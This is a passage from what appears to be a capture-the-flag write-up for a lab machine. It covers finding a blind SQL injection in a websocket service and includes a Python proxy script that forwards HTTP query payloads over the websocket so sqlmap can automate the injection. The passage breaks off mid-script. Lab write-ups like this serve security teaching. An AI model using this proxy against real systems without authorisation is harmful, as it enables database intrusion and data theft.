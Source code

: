 ### Exploiting the subdomain 

Let's create an account.  
After a while and intercepting with burp we find that this is using websocket and that it is vulnerable to sqlinjection.  
You can not just use sqlmap right away. Once you are able to see that it is vulnerable you need to use a proxy.  
[This article by Rayhan0x01](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) actually explains the steps really well and provide a script that can act as a proxy.  
We need to modify the script so that it works for our context.  
Here is the updated script  

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
        ws = create_connection(ws_server)
        # If the server returns a response on connect, use below line
        #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

        # For our case, format the payload in JSON
        message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
        data = '{"id":"%s"}' % message

        ws.send(data)
        resp = ws.recv()
        ws.close()

        if resp:
                return resp
        else:
                return ''

def middleware_server(host_port,content_type="text/plain"):

        class CustomHandler(SimpleHTTPRequestHandler):
                def do_GET(self) -> None:
                        self.send_response(200)
                        try:
                                payload = urlparse(self.path).query.split('=',1)[1]
                        except IndexError:
                                payload = False

                        if payload:
                                content = send_ws(payload)
                        else:
                                content = 'No parameters specified!'

                        self.send_header("Content-type", content_type)
                        self.end_headers()
                        self.wfile.write(content.encode())
                        return

        class _TCPServer(TCPServer):
                allow_reuse_address = True

```